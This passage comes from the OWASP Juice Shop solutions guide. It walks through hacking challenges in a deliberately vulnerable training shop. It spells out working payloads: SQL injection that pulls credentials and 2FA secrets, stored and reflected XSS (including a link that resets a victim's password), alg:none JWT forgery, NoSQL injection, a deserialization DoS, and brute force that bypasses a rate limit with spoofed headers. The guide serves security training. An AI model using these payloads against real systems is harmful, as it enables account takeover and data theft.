results *or* remember them from previously seen SQL errors while
attacking the _Login_ form.
. Searching for `qwert')) UNION SELECT id, email, password, '4', '5',
'6', '7', '8', '9' FROM Users--` solves the challenge giving you a
the list of all user data in convenient JSON format.
+
image::appendix/union_select-attack_result.png[User list from UNION SELECT attack]

There is of course a much easier way to retrieve a list of all users as
long as you are logged in: Open http://localhost:3000/#/administration
while monitoring the HTTP calls in your browser's developer tools. The
response to http://localhost:3000/rest/user/authentication-details
also contains the user data in JSON format. But: This list has all the
password hashes replaced with `*`-symbols, so it does not count as a
solution for this challenge.

=== Inform the shop about a vulnerable library it is using

Juice Shop depends on a JavaScript library with known vulnerabilities.
Having the `package.json.bak` and using an online vulnerability database
like https://retirejs.github.io/[Retire.js] or a CLI tool like
https://docs.npmjs.com/cli/audit/[npm-audit] that comes with Node.js, makes it rather easy to identify it.

. Solve
xref:../part2/sensitive-data-exposure.adoc#_access_a_developers_forgotten_backup_file[Access a developer's forgotten backup file]
. Checking the dependencies in `package.json.bak` for known
vulnerabilities online will give you a match (at least) for
 ** `sanitize-html`: Sanitization of HTML strings is not applied
recursively to input, allowing an attacker to potentially inject
script and other markup (see
https://github.com/advisories/GHSA-3j7m-hmh3-9jmp)
 ** `express-jwt`: Inherits a JWT verification bypass and other
vulnerabilities from its dependencies (see
https://github.com/advisories/GHSA-c7hr-j4mj-j2w6)
. Visit http://localhost:3000/#/contact
 .. Submit your feedback with the string pair `sanitize-html` and
`1.4.2` appearing somewhere in the comment. Alternatively you can
submit `express-jwt` and `0.1.3`.

=== Perform a persisted XSS attack bypassing a server-side security mechanism

In the `package.json.bak` you might have noticed the pinned dependency
`"sanitize-html": "1.4.2"`. Internet research will yield a reported
https://github.com/advisories/GHSA-3j7m-hmh3-9jmp[Cross-site Scripting (XSS)]
vulnerability, which was fixed with version 1.4.3 - one release later
than used by the Juice Shop. The referenced
https://github.com/apostrophecms/sanitize-html/issues/29[GitHub issue]
explains the problem and gives an exploit example:

____
Sanitization is not applied recursively, leading to a vulnerability to
certain masking attacks. Example:

`I am not harmless: <<img src="csrf-attack"/>img src="csrf-attack"/>`
is sanitized to `I am not harmless: <img src="csrf-attack"/>`

Mitigation: Run sanitization recursively until the input html matches
the output html.
____

. Visit http://localhost:3000/#/contact.
. Enter `<<script>Foo</script>iframe src="javascript:alert(`xss`)">` as
_Comment_
. Choose a rating and click _Submit_
. Visit http://localhost:3000/#/about for a first "xss" alert (from the
_Customer Feedback_ slideshow)
+
image::appendix/xss4_alert.png[XSS alert box]

. Visit http://localhost:3000/#/administration for a second "xss" alert
(from the _Customer Feedback_ table)
+
image::appendix/xss4_alert-admin.png[XSS alert box in admin area]

=== Perform a persisted XSS attack through an HTTP header

. Log in as any user.
. Visit http://localhost:3000/#/privacy-security/last-login-ip where
your _IP Address_ probably shows as `0.0.0.0`.
+
image::appendix/normal_lastLoginIp.png[Normal Last Login IP address]

. Log out and then log in again with the same user as before.
. Visit http://localhost:3000/#/privacy-security/last-login-ip again
where your _IP Address_ should now show your actual remote IP address
(or `127.0.0.1` if you run the application locally).
. Find the request to https://localhost:3000/rest/saveLoginIp in your
Browser DevTools.
. Replay the request after adding the `X-Forwarded-For` HTTP header to
spoof an arbitrary IP, e.g. `1.2.3.4`.
. Unfortunately in the response (and also on
http://localhost:3000/#/privacy-security/last-login-ip after
logging in again) you will still find your remote IP as before
. Repeat step 6. only with the proprietary header `True-Client-IP`.
. In the JSON response you will notice `lastLoginIp: "1.2.3.4"` and
after logging in again you will see `1.2.3.4` as your _IP Address_ on
http://localhost:3000/#/privacy-security/last-login-ip.
. Replay the request once more with `True-Client-IP: <iframe
src="javascript:alert(``xss``)">` to solve this seriously obscure
challenge.
. Log in again and visit
http://localhost:3000/#/privacy-security/last-login-ip see the
alert popup.
+
image::appendix/xss5_lastLoginIp.png[XSS in Last Login IP address]

== ⭐⭐⭐⭐⭐ Challenges

=== Learn about the Token Sale before its official announcement

. Open the `main.js` in your browser's developer tools and
search for some keywords like "ico", "token", "bitcoin" or "altcoin".
. Note the names of the JavaScript functions where these occur in, like
`Vu()` and `Hu(l)`. These names are obfuscated, so they might be
different for you.
+
image::appendix/minified_js-tokensale.png[Obfuscated token sale related functions in main.js]

. Searching for references to those functions in `main.js` might
yield some more functions, like `zu(l)` and some possible route name
`app-token-sale`
+
image::appendix/minified_js-tokensale_trail.png[More token sale related functions in main.js]

. Navigate to http://localhost:3000/#/app-token-sale or variations
like http://localhost:3000/#/token-sale just to realize that these
routes do not exist.
. After some more chasing through the minified code, you should realize
that `Vu` is referenced in the route mappings that already helped
with
<<find-the-carefully-hidden-score-board-page,Find the carefully hidden 'Score Board' page>>
and
<<access-the-administration-section-of-the-store,Access the administration section of the store>>
but not to a static title. It is mapped to another variable `Ca`
(which might be named differently for you)
+
image::appendix/minified_js-tokensale_route.png[Tokensale route mapping in main.js]

. Search for `function Ca(` to find the declaration of the function
that should return a matcher to the route name you are looking for.
+
image::appendix/minified_js-tokensale_matcher.png[Tokensale route matcher in main.js]

. Copy the obfuscating function into the JavaScript console of your
browser and execute it immediately by appending a `()`. This will
probably yield a `Uncaught SyntaxError: Unexpected token )`. When you
pass values in, like `(1)` or `('a')` you will notice that the input
value is simply returned.
. Comparing the route mapping to others shows you that here a `matcher`
is mapped to a `component` whereas most other mappings map a `path`
to their `component`.
. The code that gives you the sought-after path is the code block
passed into the `match()` function inside `Ca(l)`!
+
image::appendix/minified_js-tokensale_path-block.png[Code block returning the Tokensale path]

. Copying that inner code block and executing that in your console
will still yield an error!
. You need to append it to a string to make it work, which will
*finally* yield the path `/tokensale-ico-ea`.
. Navigate to http://localhost:3000/#/tokensale-ico-ea to solve this
challenge.

[,javascript]
----
"" + function() {
                for (var l = [], n = 0; n < arguments.length; n++)
                    l[n] = arguments[n];
                var e = Array.prototype.slice.call(l)
                  , t = e.shift();
                return e.reverse().map(function(l, n) {
                    return String.fromCharCode(l - t - 45 - n)
                }).join("")
            }(25, 184, 174, 179, 182, 186) + 36669..toString(36).toLowerCase() + function() {
                for (var l = [], n = 0; n < arguments.length; n++)
                    l[n] = arguments[n];
                var e = Array.prototype.slice.call(arguments)
                  , t = e.shift();
                return e.reverse().map(function(l, n) {
                    return String.fromCharCode(l - t - 24 - n)
                }).join("")
            }(13, 144, 87, 152, 139, 144, 83, 138) + 10..toString(36).toLowerCase()
----

=== Change Bender's password into slurmCl4ssic without using SQL Injection or Forgot Password

. Log in as anyone.
. Inspecting the backend HTTP calls of the _Password Change_ form
reveals that these happen via `HTTP GET` and submits current and new
password in clear text.
. Probe the responses of `/rest/user/change-password` on various
inputs:
 ** http://localhost:3000/rest/user/change-password?current=A yields
a `401` error saying `Password cannot be empty.`
 ** http://localhost:3000/rest/user/change-password?current=A&new=B
yields a `401` error saying `New and repeated password do not
match.`
 ** http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=C
also says `New and repeated password do not match.`
 ** http://localhost:3000/rest/user/change-password?current=A&new=B&repeat=B
says `Current password is not correct.`
 ** http://localhost:3000/rest/user/change-password?new=B&repeat=B
yields a `200` success returning the updated user as JSON!
. Now
<<log-in-with-benders-user-account,Log in with Bender's user account>>
using SQL Injection.
. Craft a GET request with Bender's `Authorization Bearer` header to
http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic
to solve the challenge.
+
image::appendix/csrf_postman.png[GET request via PostMan]

==== Bonus Round: Delivering the attack via reflected XSS

If you want to craft an actually realistic attack against
`/rest/user/change-password` that you could send a user as a malicious
link, you will have to invest a bit extra work, because a simple attack
like _Search_ for `+<img
src="http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic">+`
will not work. Making someone click on the corresponding attack link
http://localhost:3000/#/search?q=%3Cimg%20src%3D%22http:%2F%2Flocalhost:3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26repeat%3DslurmCl4ssic%22%3E
will return a `500` error when loading the image URL with a message
clearly stating that your attack ran against a security-wall: `Error:
Blocked illegal activity`

To make this exploit work, some more sophisticated attack URL is
required:

http://localhost:3000/#/search?q=%3Ciframe%20src%3D%22javascript%3Axmlhttp%20%3D%20new%20XMLHttpRequest%28%29%3B%20xmlhttp.open%28%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Frest%2Fuser%2Fchange-password%3Fnew%3DslurmCl4ssic%26amp%3Brepeat%3DslurmCl4ssic%27%29%3B%20xmlhttp.setRequestHeader%28%27Authorization%27%2C%60Bearer%3D%24%7BlocalStorage.getItem%28%27token%27%29%7D%60%29%3B%20xmlhttp.send%28%29%3B%22%3E

Pretty-printed this attack is easier to understand:

[,html]
----
<iframe src="javascript:xmlhttp = new XMLHttpRequest();
   xmlhttp.open('GET', 'http://localhost:3000/rest/user/change-password?new=slurmCl4ssic&amp;repeat=slurmCl4ssic');
   xmlhttp.setRequestHeader('Authorization',`Bearer=${localStorage.getItem('token')}`);
   xmlhttp.send();">
</iframe>
----

Anyone who is logged in to the Juice Shop while clicking on this link
will get their password set to the same one we forced onto Bender!

👏 Kudos to Joe Butler, who originally described this advanced XSS
payload in his blog post
https://incognitjoe.github.io/hacking-the-juice-shop.html[Hacking(and automating!) the OWASP Juice Shop].

=== Stick cute cross-domain kittens all over our delivery boxes

. Log in with any user and go to
http://localhost:3000/#/deluxe-membership
. Right-click and _Inspect_ the image of the delivery boxes with the
Juice Shop logo on them.
. You will notice that this image is in fact an inline `<svg>` tag that
includes six `<image>` tags. One is loading
`assets/public/images/deluxe/blankBoxes.png` and the other five load
`assets/public/images/JuiceShop_Logo.png` in different sizes and
positions onto the SVG graphic.
. Open the `main.js` in your browser DevTools and search for the
corresponding Angular controller code related to that page and SVG
image
. You will be able to spot six `:svg:image` references, one of them
`blankBoxes.png` and the other five seemingly unspecified at that
time.
+
image::appendix/delivery-boxes_inline_svg.png[Inline SVG in Angular controller]

. Scrolling only slightly further down, you will notice a code location
where a property `t.logoSrc` is passed into some non-descriptive
function five times.
+
image::appendix/delivery-boxes_apply_logoSrc.png[Property logoSrc passed into SVG five times]

. Scroll up in the source code a few hundred lines until you reach the
declaration of the controller (`class Ht` in the following
screenshot). There you find the definition of `this.logoSrc =
"assets/public/images/JuiceShop_Logo.png"`.
. In the subsequent `ngOnInit()` function is overwritten with either
the `application.logo` value coming out of the
`getApplicationConfiguration()` service...
. ...or - if specified - the value of the URL query parameter
`testDecal`! It seems the developers used this for testing the
overlay images on the SVG but forgot to remove it before go-live!
D'uh!
+
image::appendix/delivery-boxes_testDecal.png[Forgotten query parameter testDecal]

. Try the `testDecal` parameter, e.g. by going to
http://localhost:3000/#/deluxe-membership?testDecal=test. You will
notice that the logos on the boxes are now gone or display a broken
image symbol.
+
image::appendix/delivery-boxes_apply_testDecal.png[Probing the behavior of testDecal]

. As the logo references are relative, you cannot simply do e.g.
http://localhost:3000/#/deluxe-membership?testDecal=https:%2F%2Fplacekitten.com%2Fg%2F400%2F500
as this would result in the application to request the logos from
the relative URL
`+assets/public/images/https://placekitten.com/g/400/500+` which
obviously cannot work.
. As you are dealing with a relative path, you can try if path
traversal works, so you could get to the root of the web server e.g.
via
http://localhost:3000/#/deluxe-membership?testDecal=..%2F..%2F..%2Ftest.
This will indeed result in the image actually being requested as
http://localhost:3000/test!
+
image::appendix/delivery-boxes_testDecal_path_traversal.png[Testing path traversal via testDecal]

. It might not seem like it, but this behavior is a huge step forward!
If the Juice Shop web server only offered a URL which would be able
to _redirect_ you to any external location and grab those images...
. ...which _it does_ in the form of the
http://localhost:3000/redirect endpoint! If you haven't done so
yet, you should stop here and
<<enforce-a-redirect-to-a-page-you-are-not-supposed-to-redirect-to,Enforce a redirect to a page you are not supposed to redirect to>>
first!
. Combining that redirect exploit with the forgotten `testDecal` and
its susceptibility to path traversal will allow you to craft a URL
like
http://localhost:3000/#/deluxe-membership?testDecal=..%2F..%2F..%2F..%2Fredirect%3Fto%3Dhttps:%2F%2Fplacekitten.com%2Fg%2F400%2F500%3Fx%3Dhttps:%2F%2Fgithub.com%2Fbkimminich%2Fjuice-shop
where the most difficult part is to get the URL encoding just right
to bypass the redirect allowlist and still get the intended image
returned cross-domain.
+
image::appendix/delivery-boxes_placeKitten.png[Placekitten images put on the delivery boxes]

=== Dumpster dive the Internet for a leaked password and log in to the original user account it belongs to

. Visit https://stackoverflow.com/questions/tagged/access-log to find
all questions tagged with `access-log` in this popular platform
. The list of questions should not be excessive and one mentioning a
familiar URL path might immediately stand out
+
image::appendix/stackoverflow_access-log.png[Questions tagged 'access-log' on StackOverflow]

. Visit
https://stackoverflow.com/questions/57061271/less-verbose-access-logs-using-expressjs-morgan
to find more unambiguous URL paths from the Juice Shop in it
+
image::appendix/stackoverflow_morgan_question.png[Question on expressjs/morgan configuration]

. Follow the link to PasteBin that is mentioned below the log file
snippet in _"(see https://pastebin.com/4U1V1UjU for more)"_
. On https://pastebin.com/4U1V1UjU search for `password` to find log
entries that might help with the ultimate challenge goal
. You will find one particularly interesting `GET` request that has
been logged as `+161.194.17.103 - - [27/Jan/2019:11:18:35 +0000] "GET
/rest/user/change-password?current=0Y8rMnww$*9VFYE%C2%A759-!Fg1L6t&6lB&new=sjss22%@%E2%82%AC55jaJasj!.k&repeat=sjss22%@%E2%82%AC55jaJasj!.k8
HTTP/1.1" 401 39 "http://localhost:3000/" "Mozilla/5.0 (Linux;
Android 8.1.0; Nexus 5X) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/71.0.3578.99 Mobile Safari/537.36"+`
. The mismatched `new` and `repeat` parameters and the return code of
`401` indicate that this password change failed. This means the
password could still be the current one of
`0Y8rMnww$*9VFYE%C2%A759-!Fg1L6t&6lB`!
. This isn't the exact clear text password, though. It was logged as
part of a URL, so it needs to be URL-decoded into
`0Y8rMnww$*9VFYE§59-!Fg1L6t&6lB` first.
. Not knowing which user it belongs to, you can now
 ** either perform a _Password Spraying_ attack by trying to log in
with the password for all known user emails, e.g. from
<<access-the-administration-section-of-the-store,Access the administration section of the store>>
 ** hash the known password with `MD5` and compare it to the password
hashes harvested from
<<retrieve-a-list-of-all-user-credentials-via-sql-injection,Retrieve a list of all user credentials via SQL Injection>>
. Either way you will conclude that the password belongs to
`J12934@juice-sh.op` so using this as _Email_ and
`0Y8rMnww$*9VFYE§59-!Fg1L6t&6lB` as _Password_ on
http://localhost:3000/#/login will solve the challenge

🤡 Did you notice that one of the next requests of `161.194.17.103` in
the leaked access log went to http://localhost:3000/api/Complaints and
returned a `201 Created` HTTP status code? It seems the user
successfully complained, but eventually didn't bother or was too
frustrated to finish what he originally planned to do.

=== Perform an unwanted information disclosure by accessing data cross-domain

. Find a request to the `/rest/user/whoami` API endpoint. Notice
that you can remove the "Authorization" header and it still works.
image:appendix/normal_whoami.png[Normal whoami call]
. Add a URL parameter called "callback". This will cause the API to
return the content as a JavaScript fragment (JSONP) rather than just
a standard JSON object.
image:appendix/jsonp_whoami.png[whoami call using JSONP]

=== Log in with the (non-existing) accountant without ever registering that user

. Go to http://localhost:3000/#/login and try logging in with _Email_
`'` and any _Password_ while observing the Browser DevTools network
tab.
. You will notice the SQL query for the login in the error being
thrown: `"sql": "SELECT * FROM Users WHERE email = ''' AND password =
'339df5aeae5bc6ae557491e02619c5dd' AND deletedAt IS NULL"`
. Solve
<<exfiltrate-the-entire-db-schema-definition-via-sql-injection,Exfiltrate the entire DB schema definition via SQL Injection>>
to learn the exact column names of the `Users` table.
. Prepare a `UNION SELECT` payload what will a) ensure there is no
result from the original query and b) will add the needed user
on-the-fly using static values in the query.
. Log in with _Email_ `' UNION SELECT * FROM (SELECT 15 as 'id', '' as
'username', 'acc0unt4nt@juice-sh.op' as 'email', '12345' as
'password', 'accounting' as 'role', '123' as 'deluxeToken', '1.2.3.4'
as 'lastLoginIp' , '/assets/public/images/uploads/default.svg' as
'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16
14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00'
as 'updatedAt', null as 'deletedAt')--`
. This will trick the application backend into handing out a valid JWT
token and thus establishing a user session.

=== Retrieve the language file that never made it into production

. Monitoring the HTTP calls to the backend when switching languages
tells you how the translations are loaded:
 ** http://localhost:3000/i18n/en.json
 ** http://localhost:3000/i18n/de_DE.json
 ** http://localhost:3000/i18n/nl_NL.json
 ** http://localhost:3000/i18n/zh_CN.json
 ** http://localhost:3000/i18n/zh_HK.json
 ** etc.
. It is obvious the language files are stored with the official
_locale_ as name using underscore notation.
. Nonetheless, even brute forcing all thinkable locale codes (`aa_AA`,
`ab_AA`, ..., `zz_ZY`, `zz_ZZ`) would still *not* solve the
challenge.
. The hidden language is _Klingon_ which is represented by a
three-letter code `tlh` with the dummy country code `AA`.
. Request http://localhost:3000/i18n/tlh_AA.json to solve the
challenge. majQa'!

Instead of expanding your brute force pattern (which is not a very
obvious decision to make) you can more easily find the solution to this
challenge by investigating which languages are supported in the Juice
Shop and how xref:../part3/translation.adoc[the translations] are managed.
This will quickly bring you over to
https://crowdin.com/project/owasp-juice-shop which immediately
spoilers _Klingon_ as a supported language. Hovering over the
corresponding flag will eventually spoiler the language code `tlh_AA`.

image::appendix/crowdin_klingon-spoiler.png[Crowdin Klingon Spoiler]

____
The Klingon language was originally created to add realism to a race
of fictional aliens who inhabit the world of Star Trek, an American
television and movie franchise. Although Klingons themselves have
never existed, the Klingon language is real. It has developed from
gibberish to a usable means of communication, complete with its own
vocabulary, grammar, figures of speech, and even slang and regional
dialects. Today it is spoken by humans all over the world, in many
contexts.footnote:3[http://www.kli.org/about-klingon/klingon-history]
____

=== Solve the 2FA challenge for user "wurstbrot"

. <<access-the-administration-section-of-the-store,Access the administration section of the store>>
while inspecting network traffic.
. You will learn the email address of the user in question is
unsurprisingly `wurstbrot@juice-sh.op`.
. You will also notice that there is no information about any user's
2FA configuration in the responses from `/api/Users`.
. Solve
<<retrieve-a-list-of-all-user-credentials-via-sql-injection,Retrieve a list of all user credentials via SQL Injection>>
and keep its final attack payload ready.
. Change the one of the ``null``s in payload to hopefully find a column
that contains the secret key for the 2FA setup:
 ** http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fa,null,null,null,null%20from%20users--
yields a `500` error with `SequelizeDatabaseError: SQLITE_ERROR: no
such column: 2fa`.
 ** http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fakey,null,null,null,null%20from%20users--
fails with `no such column: 2fakey`.
 ** http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,2fasecret,null,null,null,null%20from%20users--
fails with `no such column: 2fasecret`.
 ** http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totp,null,null,null,null%20from%20users--
also fails with `no such column: totp`.
 ** http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpkey,null,null,null,null%20from%20users--
fails again yielding `no such column: totpkey`.
 ** http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpsecret,null,null,null,null%20from%20users--
finally succeeds with a `200` response as this column exists!
. In the response from
http://localhost:3000/rest/products/search?q=%27))%20union%20select%20null,id,email,password,totpsecret,null,null,null,null%20from%20users--
find the entry of user `wurstbrot@juice-sh.op` with
`"image":"IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH"` whereas all other users
have `"image":""` set.
. Using your favorite 2FA application (e.g.
https://play.google.com/store/apps/details?id=com.google.android.apps.authenticator2[Google Authenticator])
create a new entry, but instead of scanning any QR code type in the
key `IFTXE3SPOEYVURT2MRYGI52TKJ4HC3KH` manually.
. Go to link:http:localhost:3000/#/login[http:localhost:3000/#/login] and use SQL Injection to log in
with `wurstbrot@juice-sh.op'--` as _Username_ and anything as
_Password_.
. You will be presented with the _Two Factor Authentication_ input
screen where you now have to type in the 6-digit code currently
displayed on your 2FA app.
+
image:appendix/2fa_authenticator.png[Google Authenticator for wurstbrot]
image:appendix/2fa_challenge.png[2FA input dialog]

. After clicking _Log in_ you are logged in and the challenge will be
marked as solved!

=== Forge an essentially unsigned JWT token

. Log in as any user to receive a valid JWT in the `Authorization`
header.
. Copy the JWT (i.e. everything after `Bearer ` in the `Authorization`
header) and decode it.
. Under the `payload` property, change the `email` attribute in the
JSON to `jwtn3d@juice-sh.op`.
. Change the value of the `alg` property in the `header` part from
`HS256` to `none`.
. Encode the `header` to `base64url`. Similarly, encode the `payload`
to `base64url`. _base64url makes it URL safe_, a regular Base64
encode might not work!
. Join the two strings obtained above with a `.` (dot symbol) and add a
`.` at the end of the obtained string. So, effectively it becomes
`base64url(header).base64url(payload).`
. Change the `Authorization` header of a subsequent request to the
retrieved JWT (prefixed with `Bearer ` as before) and submit the
request. Alternatively you can set the `token` cookie to the JWT
which be used to populate any future request with that header.

=== All your orders are belong to us

. Open the network tab of your browser's DevTools.
. Log in with any user that previously ordered something and visit http://localhost:3000/#/order-history
. Click on the _Track Order_ button (depicting a truck) of any order
. Witness a `GET` request to a URL starting with `+http://localhost:3000/rest/track-order/+` and ending with a seemingly random sequence of characters (which is actually the _Order ID_)
. Try out http://localhost:3000/rest/track-order/x to receive a response of `{"status":"success","data":[{"orderId":"x"}]}`.
. Search for `'` (single quote) as _Order ID_ now.
http://localhost:3000/rest/track-order/' will throw an error
+
image::appendix/error_page-nosqli.png[NoSQL query error from invalid token]

. Searching for `''` (two single quotes) as _Order ID_ now will let
http://localhost:3000/rest/track-order/'' throw an `Unexpected
string` error instead of the previous `Invalid or unexpected token`.
. While not stated anywhere in the error messages, it can be assumed
with some MongoDB background that the query probably resembles
something like `{ $where: "property === '" + payload + "'" }`.
. The required `payload` for the challenge needs to make sure all data
is matched while squeezing itself into the query in a non-breaking
way.
. Search for `' || true || '` resulting in
http://localhost:3000/rest/track-order/'%20%7C%7C%20true%20%7C%7C%20'
which will in fact query and return all orders from the MarsDB.

=== Perform a Remote Code Execution that would keep a less hardened application busy forever

. By manual or automated URL discovery you can find a
https://swagger.io[Swagger] API documentation hosted at
http://localhost:3000/api-docs which describes the B2B API.
+
image::appendix/swagger_api-docs.png[Swagger API-Docs]

. This API allows to `POST` orders where the order lines can be sent as
JSON objects (`orderLines`) but also as a String (`orderLinesData`).
. The given example for `orderLinesDate` indicates that this String
might be allowed to contain arbitrary JSON: `+[{"productId":
12,"quantity": 10000,"customerReference": ["PO0000001.2",
"SM20180105|042"],"couponCode": "pes[Bh.u*t"},...]+`
+
image::appendix/swagger_models-order.png[Swagger Order Model]

. Click the _Try it out_ button and without changing anything click
_Execute_ to see if and how the API is working. This will give you a
`401` error saying `No Authorization header was found`.
. Go back to the application, log in as any user and copy your token
from the `Authorization Bearer` header using your browser's DevTools.
. Back at http://localhost:3000/api-docs/#/Order/post_orders click
_Authorize_ and paste your token into the `Value` field.
. Click _Try it out_ and _Execute_ to see a successful `200` response.
. An insecure JSON deserialization would execute any function call
defined within the JSON String, so a possible payload for a DoS
attack would be an endless loop. Replace the example code with
`{"orderLinesData": "(function dos() { while(true); })()"}` in the
_Request Body_ field. Click _Execute_.
. The server should eventually respond with a `200` after roughly 2
seconds, because that is defined as a timeout so you do not really
DoS your Juice Shop server.
. If your request successfully bumped into the infinite loop
protection, the challenge is marked as solved.

=== Reset the password of Bjoern's internal account via the Forgot Password mechanism

. Trying to find out who "Bjoern" might be should quickly lead you to
the OWASP Juice Shop project leader and author of this ebook.
. Visit https://www.facebook.com/bjoern.kimminich to immediately learn
that he is from the town of _Uetersen_ in Germany.
. Visit https://gist.github.com/9045923 or
https://pastebin.com/JL5E0RfX to find the source code of a (truly
amazing) game Bjoern wrote in Turbo Pascal in 1995 (when he was a
teenager) to learn his phone number area code of _04122_ which
belongs to Uetersen. This is sufficient proof that you in fact are on
the right track.
. http://www.geopostcodes.com/Uetersen will tell you that Uetersen has
ZIP code _25436_.
. Visit http://localhost:3000/#/forgot-password and provide
`bjoern@juice-sh.op` as your _Email_.
. In the subsequently appearing form, provide `25436` as _Your
ZIP/postal code when you were a teenager?_
. Type and _New Password_ and matching _Repeat New Password_ followed
by hitting _Change_ to *not solve* this challenge.
. Bjoern added some obscurity to his security answer by using an
uncommon variant of the pre-unification format of
<<postal-codes-in-germany,postal codes in Germany>>.
. Visit http://www.alte-postleitzahlen.de/uetersen to learn that
Uetersen's old ZIP code was `W-2082`. This would not work as an
answer either. Bjoern used the written out variation: `West-2082`.
. Change the answer to _Your ZIP/postal code when you were a
teenager?_ into `West-2082` and click _Change_ again to finally
solve this challenge.

==== Postal codes in Germany

____
Postal codes in Germany, Postleitzahl (plural Postleitzahlen,
abbreviated to PLZ; literally "postal routing number"), since 1 July
1993 consist of five digits. The first two digits indicate the wider
area, the last three digits the postal district.

Before reunification, both the Federal Republic of Germany (FRG) and
the German Democratic Republic (GDR) used four-digit codes. Under a
transitional arrangement following reunification, between 1989 and
1993 postal codes in the west were prefixed with 'W', e.g.: W-1000
[Berlin] 30 (postal districts in western cities were separate from
the postal code) and those in the east with 'O' (for Ost), e.g.:
O-1xxx Berlin.footnote:4[https://en.wikipedia.org/wiki/List_of_postal_codes_in_Germany]
____

=== Reset Morty's password via the Forgot Password mechanism

. Trying to find out who "Morty" might be should _eventually_ lead you
to _Morty Smith_ as the most likely user identity
+
image::appendix/Morty_Smith.jpg[Morty Smith]

. Visit http://rickandmorty.wikia.com/wiki/Morty and skim through the
http://rickandmorty.wikia.com/wiki/Morty#Family[Family] section
. It tells you that Morty had a dog named _Snuffles_ which also goes by
the alias of _Snowball_ for a while.
. Visit http://localhost:3000/#/forgot-password and provide
`morty@juice-sh.op` as your _Email_
. Create a word list of all mutations (including typical
"leet-speak"-variations!) of the strings `snuffles` and `snowball`
using only
 ** lower case (`a-z`)
 ** upper case (`A-Z`)
 ** and digit characters (`0-9`)
. Write a script that iterates over the word list and sends well-formed
requests to `+http://localhost:3000/rest/user/reset-password+`. A rate
limiting mechanism will prevent you from sending more than 100
requests within 5 minutes, severely hampering your brute force
attack.
. Change your script so that it provides a different
`X-Forwarded-For`-header in each request, as this takes precedence
over the client IP in determining the origin of a request.
. Rerun your script you will notice at some point that the answer to
the security question is `5N0wb41L` and the challenge is marked as
solved.
. Feel free to cancel the script execution at this point.

📕: If you do not want to write your own script for this challenge, take
a look at
https://gist.github.com/philly-vanilly/70cd34a7686e4bb75b08d3caa1f6a820[juice-shop-mortys-question-brute-force.py]
which was kindly published as a Gist on GitHub by
https://github.com/philly-vanilly[philly-vanilly].

____
Leet (or "1337"), also known as eleet or leetspeak, is a system of
modified spellings and verbiage used primarily on the Internet for
many phonetic languages. It uses some alphabetic characters to replace
others in ways thdev at play on the similarity of their glyphs via
reflection or other resemblance. Additionally, it modifies certain
words based on a system of suffixes and alternative meanings.

The term "leet" is derived from the word elite. The leet lexicon
involves a specialized form of symbolic writing. For example, leet
spellings of the word leet include 1337 and l33t; eleet may be spelled
31337 or 3l33t. Leet may also be considered a substitution cipher,
although many dialects or linguistic varieties exist in different
online communities.footnote:5[https://en.wikipedia.org/wiki/Leet]
____

=== Deprive the shop of earnings by downloading the blueprint for one of its products

. The description of the _OWASP Juice Shop Logo (3D-printed)_ product
indicates that this product might actually have kind of a blueprint
. Download the product image from
http://localhost:3000/public/images/products/3d_keychain.jpg and view
its https://en.wikipedia.org/wiki/Exif[Exif metadata]
+
image::appendix/exif-3d_keychain.png[3D printed logo Exif metadata]

. Researching the camera model entry _OpenSCAD_ reveals that this is a
program to create 3D models, which works with `.stl` files
. As no further hint on the blueprint filename or anything is given, a
lucky guess or brute force attack is your only choice
. Download http://localhost:3000/assets/public/images/products/JuiceShop.stl
to solve this challenge
. This model will actually allow you to 3D-print your own OWASP Juice
Shop logo models!
+
image:appendix/JuiceShop.stl_surface.png[JuiceShop.stl Surface Angle view]
image:appendix/JuiceShop.stl_wireframe.png[JuiceShop.stl Wireframe view]

The official place to retrieve this and other media or artwork files
from the Juice Shop (and other OWASP projects or chapters) is
https://github.com/OWASP/owasp-swag. There you can not only find the
3D model leaked from this challenge, but also
https://github.com/OWASP/owasp-swag/blob/master/projects/juice-shop/3d/JuiceShop_KeyChain.stl[one that comes with a dedicated hole to mount it on your keyring]!

=== Inform the development team about a danger to some of their credentials

. Solve
<<access-a-developers-forgotten-backup-file,Access a developer's forgotten backup file>>
. The `package.json.bak` contains not only runtime dependencies but
also development dependencies under the `devDependencies` section.
. Go through the list of `devDependencies` and perform research on
vulnerabilities in them which would allow a Software Supply Chain
Attack.
. For the `eslint-scope` module you will learn about one such incident
exactly in the pinned version `3.7.2`, e.g.
https://status.npmjs.org/incidents/dn7c1fgrr7ng or
https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes
. Both above links refer to the original report of this vulnerability
on GitHub: https://github.com/eslint/eslint-scope/issues/39
. Visit http://localhost:3000/#/contact
. Submit your feedback with
`+https://github.com/eslint/eslint-scope/issues/39+` in the comment to
solve this challenge

=== Inform the shop about a typosquatting imposter that dug itself deep into the frontend

. Request http://localhost:3000/3rdpartylicenses.txt to retrieve the
3rd party license list generated by Angular CLI by default
. Combing through the list of modules you will come across
`anuglar2-qrcode` which openly reveals its intent on
https://www.npmjs.com/package/anuglar2-qrcode
+
image::appendix/npm_anuglar2-qrcode.png[anuglar2-qrcode on NPM]

. Visit http://localhost:3000/#/contact
. Submit your feedback with `anuglar2-qrcode` in the comment to solve
this challenge

You can probably imagine that the typosquatted `anuglar2-qrcode` would
be _a lot harder_ to distinguish from the original repository
`ngx-bar-rating`, if it where not marked with the _THIS IS *NOT* THE
MODULE YOU ARE LOOKING FOR!_-warning at the very top. Below you can see
the original `ngx-bar-rating` module page on NPM:

image::appendix/npm_angular2-qrcode.png[angular2-qrcode on NPM]

=== Give the server something to chew on for quite a while

. Solve the
